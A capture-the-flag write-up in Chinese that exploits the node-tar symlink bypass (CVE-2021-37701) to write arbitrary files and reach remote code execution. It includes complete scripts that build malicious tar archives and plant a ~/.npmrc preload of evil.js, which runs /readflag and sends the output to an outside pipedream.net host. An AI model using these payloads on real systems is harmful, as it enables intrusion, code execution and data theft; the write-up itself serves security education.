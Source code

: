 本题利用的是`8`月份曝出的`node-tar`包符号链接检查绕过漏洞，这个漏洞本身在网上是可以找到`POC`的，能够做到任意文件写入，同时本题展示文件列表的功能结合符号链接可以被用来列目录，辅助判断题目环境，不过为了难度考虑，还是在`/robots.txt`中将`Dockerfile`放出，能够得到一些关于题目是如何启动的信息，同时，本题也考察了在没有`web`应用目录写入权限的情况下，通过任意文件写来进一步造成`RCE`的一些思路。  
`CVE-2021-37701 node-tar`任意文件写入`/`覆盖漏洞(翻译自原报告)`node-tar`有安全措施，旨在保证不会提取任何位置将被符号链接修改的文件，这部分是通过确保提取的目录不是符号链接来实现的，此外，为了防止不必要的`stat`调用来确定给定路径是否为目录，在创建目录时会缓存路径，但是`6.1.7`以下版本的`node-tar`当提取包含一个目录及与目录同名的符号链接的`tar`文件时，此检查逻辑是不够充分的，其中存档条目中的符号链接和目录名称在`posix`系统上使用反斜杠作为路径分隔符，缓存检查逻辑同时使用了和`/`字符作为路径分隔符，然而，在`posix`系统上是一个有效的文件名字符，通过首先创建一个目录，然后用符号链接替换该目录，可以绕过对目录的符号链接检查，基本上允许不受信任的`tar`文件符号链接到任意位置，然后将任意文件提取到该位置，从而允许任意文件创建和覆盖，此外，不区分大小写的文件系统可能会出现类似的混淆，如果恶意`tar`包含一个位于`FOO`的目录，后跟一个名为`foo`的符号链接，那么在不区分大小写的文件系统上，符号链接的创建将从文件系统中删除该目录，但不从内部目录中删除缓存，因为它不会被视为缓存命中，`FOO`目录中的后续文件条目将被放置在符号链接的目标中，认为该目录已经创建，关于`POC`的构建，也有相关文章可以参考`: 5 RCEs in npm for $15, 000`。于是我们简单尝试一下，但在上传时，我们会发现文件大小存在限制，而一般来讲`tar`打包出来的文件都会大于`1KB`，所以可以打包一个`.tar.gz`，并将扩展名改回`.tar`，实际上`node-tar`并不根据扩展名判断文件是否压缩，所以`.tar`后缀的`.tar.gz`文件是可以被正常解压的，可以发现确实创建了一个指向`/app/data`以外的符号链接，能够列出全盘的路径信息: 

```bash
#!/bin/sh

rm n\\x

ln -s / n\\x # Create a link to the destination dir
tar cf poc.tar n\\x # Pack the link into the tar

echo "test" > n\\x/app/data/test
tar rf poc.tar n\\x n\\x/app/data/test

gzip -9 < poc.tar > poc.tar.gz
rm poc.tar
mv poc.tar.gz poc.tar
```

做完这一步，就可以任意列目录，并且任意写入文件了，根目录下有`/readflag`，说明需要命令执行。

从`Dockerfile`可以看出，我们的用户是`node`，基本上没有多少地方有写权限，并且`app`目录除了`/app/data`都是无权限写的，观察启动参数，`nodemon --exec npm start`有些奇怪，查资料发现`nodemon`是一个开发使用的工具，会在`/app`目录下发生文件创建或更改时自动重启`node`，于是想到，我们还可以在用户文件夹下写入配置文件，让配置文件在`node`重启时被加载，这时我们注意到服务是用`npm start`起的，所以可以通过写入`~/.npmrc`的`NODE_OPTIONS`参数造成`RCE`。

```bash
echo "node-options='--require /home/node/evil.js'" > /home/node/.npmrc
```

之后，写入一个`.js`文件到`/app/data`下面，即可触发`nodemon`重启`node`，进而导致`evil.js`被执行，`nodemon`这层主要是方便比赛，实际上如果是在真实环境里，大概率不会有人使用`nodemon`启动生产环境的服务，不过我们仍然可以先将文件写入，之后守株待兔直到服务重启，命令被执行，在配置了重启策略的`Docker`容器中，也可以通过把服务打挂的方式强制重启。

```bash
#!/bin/sh

# Generate Tar
mkdir /home/node
ln -s /home/node/ n\\x
tar cf exp.tar n\\x
echo "node-options='--require /home/node/evil.js'" > n\\x/.npmrc
echo "const execSync = require('child_process').execSync;const http = require('http');const output = execSync('/readflag', { encoding: 'utf-8' });http.get('http://ent9hso2vt0z.x.pipedream.net/?'+output);" > n\\x/evil.js
echo "dummy" > test.js
tar rf exp.tar n\\x n\\x/.npmrc n\\x/evil.js test.js

# Compress
gzip -9 < exp.tar > exp.tar.gz
mv exp.tar.gz exp.tar

# Clean Up
rm n\\x/.npmrc n\\x/evil.js test.js n\\x
rm -r /home/node
```
